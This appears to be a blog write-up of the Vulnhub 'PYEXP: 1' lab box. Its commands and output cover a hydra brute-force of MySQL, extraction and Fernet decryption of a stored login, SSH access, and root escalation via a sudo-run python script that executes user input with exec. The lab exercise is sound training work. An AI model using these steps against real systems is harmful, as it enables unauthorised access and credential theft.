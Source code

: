 ```yaml
---
title: PYEXP 1
author:
  name: am-a-circle
  link: https://am-a-circle.github.io
date: 2021-04-18 12:00:00 +0800
categories:  [TryHackMe]
tags: [gpg,nfs]
math: false
mermaid: false


---
```




## Overview

"PYEXP: 1" is an interesting box as it teaches the concept of  brute-forcing,database enumeration and exploiting dangerous python function.

|Box Difficulty| Link|
|--|--|
| Medium| [Vulnhub Link](https://www.vulnhub.com/entry/pyexp-1,534/) |

## Recon

As usual, the standard masscan follow by nmap.
```bash
# masscan -p1-65535  192.168.205.118  --rate=1000 -e tun0
Discovered open port 3306/tcp on 192.168.205.118
Discovered open port 1337/tcp on 192.168.205.118                 
```


```bash
└─# nmap -sV -sC -p 1337,3306 -oN /opt/OSCP_PlayG/PyExp/nmap_full.txt 192.168.205.118

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 11:25 EDT                                                                                                           
Nmap scan report for 192.168.205.118
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: d5z)[o=~(GllWRri9}.i
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.69 seconds

```

From the output we can see that there is a SSH server on port 1337 and a MySQL service at port 3306. 
Honestly, there isn't much to work on so the only option I could think of was to brute-force MySQL for password.

## MYSQL - TCP 3306

Brute-forcing root password: 
```bash
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.205.118 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-17 11:45:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.205.118:3306/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 14344228 to do in 1398:05h, 4 active
...
...
[STATUS] 174.00 tries/min, 8178 tries in 00:47h, 14336221 to do in 1373:13h, 4 active
[3306][mysql] host: 192.168.205.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

That took awhile but the result is that we obtain the root password for mysql. Let's enumerate the database for any credentials we can use to access the SSH server!



## Shell as Lucy

Enumerating the database:


```bash
└─# mysql --host 192.168.205.118 -u root -p                                                                                                                                                
Enter password:                                                                                                                                                                                    
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                        
Your MariaDB connection id is 22205                                                                                                                                                                
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10                                                                                                                                                
                                                                                                                                  
MariaDB [(none)]> show databases;                                                                                                                                                                  
+--------------------+                                                                                                                                                                             
| Database           |                                                                                                                                                                             
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.253 sec)

MariaDB [(none)]> use data;

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.270 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.282 sec)



```

After enumerating the database server there isn't much but the above.

As we can see from the above, there is a fernet table with the column name "cred" and "keyy" from the table name fernet.

A quick google about fernet leads me to **"fernet encryption"**
*:Fernet is a symmetric encryption method which makes sure that the message encrypted cannot be manipulated/read without the key.*

When inputting the Token and Key into the site here, [Fernet decryption!](https://asecuritysite.com/encryption/ferdecode)

We get the credentials below:
Decoded: lucy:wJ9`"Lemdv9[FEw-

Great ! Now we have a possible username and password! Let's try to SSH into the server
```bash
└─# ssh lucy@192.168.205.118 -p 1337                                                                                                                                                         
lucy@192.168.205.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
```

With that we are now in the system running as lucy!

## Shell as Root

One of the first things i like to do is run beside running `linpeas.sh` is to run `sudo -l` to see if the current user is able to run any privilege commands which can be abused.
```bash
lucy@pyexp:/tmp$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Interestingly , we can run `/usr/bin/python2 /opt/exp.py` as root. A further look into the file reveals the below
```bash
lucy@pyexp:/tmp$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)

```
From the `exp.py` file above we can see that it takes a user input. But what is dangerous here is that the script uses the vulnerable `exec` function. 


Why is `exec` dangerous ? 
It is because it take strings and turn them into executable code!  A user could build a string so that it runs other Python functions to potentially erase all your data, expose your secret keys, dump your database, or perform other malicious actions. Since we can execute the file as a root user, the command executed will be as root. 


Thus a simple way to become root would be to use the python function to spawn a bash shell!

```bash
lucy@pyexp:/tmp$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import pty; pty.spawn("/bin/bash")
root@pyexp:/tmp# whoami
root
root@pyexp:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root!

